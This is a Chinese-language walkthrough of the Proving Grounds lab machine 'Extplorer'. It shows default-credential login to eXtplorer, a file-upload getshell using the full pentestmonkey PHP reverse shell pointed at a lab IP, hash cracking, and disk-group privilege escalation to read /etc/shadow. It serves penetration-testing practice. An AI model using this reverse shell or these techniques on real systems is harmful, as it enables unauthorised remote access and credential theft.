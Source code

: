 ```yaml
---
title: Proving Grounds Extplorer-ClamAV
date: 2025-6-10 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


# 信息收集

## nmap

![image-20250610113426176](./Extplorer/image-20250610113426176.png)

## 80端口

![image-20250611145028866](./Extplorer/image-20250611145028866.png)

扫到个filemanager目录，是一个登录页面，在网上可以查到默认密码为`admin:admin`，使用默认账号密码可以登录

![image-20250611145157485](./Extplorer/image-20250611145157485.png)

![image-20250611145935379](./Extplorer/image-20250611145935379.png)

changelog中保存的是更新日志，当前版本应该是2.1.15

![image-20250611152652902](./Extplorer/image-20250611152652902.png)

并且通过下面的xml文件中也可以看到版本是2.1.15

![image-20250611155039499](./Extplorer/image-20250611155039499.png)

该版本存在任意文件上传漏洞

![image-20250611155116863](./Extplorer/image-20250611155116863.png)

# 任意文件上传-getshell

可以上传一个php后门，然后访问后门页面，就可以成功反弹shell

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.45.198';
$port = 80;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

上传过程中没有什么限制，不需要抓包改请求包等等，直接上传即可

![image-20250611161112402](./Extplorer/image-20250611161112402.png)

home下还有个用户dora，该用户有local.txt，所以要尝试先切换到该用户

在config目录下找到该用户的密码，识别之后是`bcrypt`加密

![image-20250611163651894](./Extplorer/image-20250611163651894.png)

![image-20250611163656327](./Extplorer/image-20250611163656327.png)

hashcat -m 指定加密类型后可以成功破解

```
dora:doraemon
```

![image-20250611165137299](./Extplorer/image-20250611165137299.png)

![image-20250611165412602](./Extplorer/image-20250611165412602.png)

# 提权

切换到dora用户之后，该用户属于磁盘组

![image-20250611165456428](./Extplorer/image-20250611165456428.png)

[磁盘组权限提升 | VK9 Security --- Disk group privilege escalation | VK9 Security](./https://vk9-sec.com/disk-group-privilege-escalation/?source=post_page-----9aaa071b5989---------------------------------------)

可以借助这篇文章来进行权限提升，可以读取到proof.txt

![image-20250611171826615](./Extplorer/image-20250611171826615.png)

也可以读取`/etc/shadow`,然后破解`root`用户的密码

![image-20250611172357454](./Extplorer/image-20250611172357454.png)

![image-20250611172350957](./Extplorer/image-20250611172350957.png)

```
root:explorer
```

![image-20250611172418762](./Extplorer/image-20250611172418762.png)